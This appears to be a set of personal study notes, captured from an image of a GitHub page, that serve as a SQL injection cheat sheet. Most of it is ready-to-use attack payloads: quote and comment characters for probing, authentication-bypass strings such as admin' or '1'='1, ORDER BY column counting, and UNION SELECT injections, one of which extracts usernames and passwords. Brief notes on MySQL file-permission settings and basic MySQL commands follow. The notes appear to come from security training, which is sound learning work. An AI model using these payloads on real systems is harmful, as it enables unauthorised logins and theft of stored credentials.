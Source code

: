## Notes

- Always add `-- -` at the end of payloads to comment out the rest of the query
- Use single quotes `'` for string injection points
- Adjust the number of columns in UNION SELECT to match the original query
- The `secure_file_priv` variable controls file read/write permissions:
  - Empty = Can read/write anywhere
  - Directory path = Restricted to that directory
  - NULL = No file operations allowed
# Command Cheat Sheet:
## Discovery Payloads:

' (single quote)
" (double quote)
# (hash)
; (semicolon)
) (closing parenthesis)

## Authentication Bypass:

admin' or '1'='1
' or '1'='1
admin'--
admin')--

Comments:

--  (two dashes with space)
"#" (hash symbol)
--+ (URL encoded version)
%23 (URL encoded hash)

## Column Detection:

' order by 1-- -
' order by 2-- - (increment until error)
cn' UNION select 1,2,3-- -

## UNION Injection:

cn' UNION select 1,@@version,3,4-- -
1' UNION SELECT username, password from passwords-- '
# MySQL Command Cheat Sheet:

## DATABASE OPERATIONS:
CREATE DATABASE database_name;
SHOW DATABASES;
USE database_name;
DROP DATABASE database_name;

